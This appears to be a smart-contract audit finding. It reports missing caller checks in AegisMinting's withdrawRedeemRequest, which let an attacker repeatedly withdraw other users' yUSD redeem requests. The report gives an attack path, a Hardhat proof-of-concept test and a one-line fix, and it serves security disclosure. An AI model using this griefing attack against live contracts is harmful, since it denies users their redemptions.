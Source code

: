 Modern Sepia Okapi

Medium

# Missing Access Control In `AegisMinting::withdrawRedeemRequest()` Allows An Adversary To Withdraw Redeem Requests For Other Users

### Summary

A lack of access control or checks on msg.sender in `withdrawRedeemRequests` function could allow an adversary to withdraw any user's withdrawal requests. This can be a nuisance to real users who would like to redeem their `yUSD` in exchange for a specific collateral token. An attacker can repeatedly grief users by withdrawing all their redeem requests.

### Root Cause

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L377-L390

`AegisMinting.sol:withdrawRequestRedeem` function lacks any access control mechanism to ensure `msg.sender` is the owner of the redeem request and saved as `request.order.userWallet`.

### Internal Pre-conditions

Victim user needs to make a redeem request.

### External Pre-conditions

None

### Attack Path

1. Victim mints yUSD by providing a collateral token.
2. Victim holds yUSD for a desirable amount of time.
3. Victim makes a redeem request for collateral. - Attacker sees this transaction.
4. Attacker withdraws victim's redeem requests.

This can happen over and over again as long as the attacker is able to withdraw the requests before being rejected or approved.

### Impact

Griefing
Denial of Service


### PoC

Add this test to `6_aegis_minting_redeem.spec.ts` test file, then run `npx hardhat test --grep "an adversary can withdraw redeem requests for other users"`

```typescript
      it('an adversary can withdraw redeem requests for other users', async () => {
        const [owner, sender, attacker] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        await yusdContract.setMinter(owner)
        await yusdContract.mint(sender, ethers.parseEther('100'))
        await yusdContract.setMinter(aegisMintingAddress)
        // Approve YUSD to be sent by AegisMinting contract from sender
        await yusdContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('1000'))
        
        const requestId = 'test'
        const yusdAmount = ethers.parseEther('9.99')
        const orderExpiry = (await time.latest()) + 10000
        const redeemOrder = {
          orderType: OrderType.REDEEM,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: ethers.parseEther('10'),
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: orderExpiry,
          nonce: Date.now(),
          additionalData: encodeString(requestId),
        }
        const signature = await signOrder(redeemOrder, aegisMintingAddress)
        await expect(aegisMintingContract.connect(sender).requestRedeem(redeemOrder, signature)).to.be.not.reverted
        
        await time.increase(orderExpiry)
        const benefactorYUSDBalanceBefore = await yusdContract.balanceOf(sender)

        await expect(aegisMintingContract.connect(attacker).withdrawRedeemRequest(requestId)).to.
          emit(aegisMintingContract, 'WithdrawRedeemRequest').
          withArgs(requestId, sender.address, yusdAmount)
        
        await expect(assetContract.balanceOf(aegisMintingAddress)).to.be.eventually.equal(0)
        await expect(yusdContract.balanceOf(sender)).to.be.eventually.equal(benefactorYUSDBalanceBefore + yusdAmount)
      })
```

### Mitigation

Add a check

```solidity
require(msg.sender == request.order.userWallet, "unAuthorized User");
```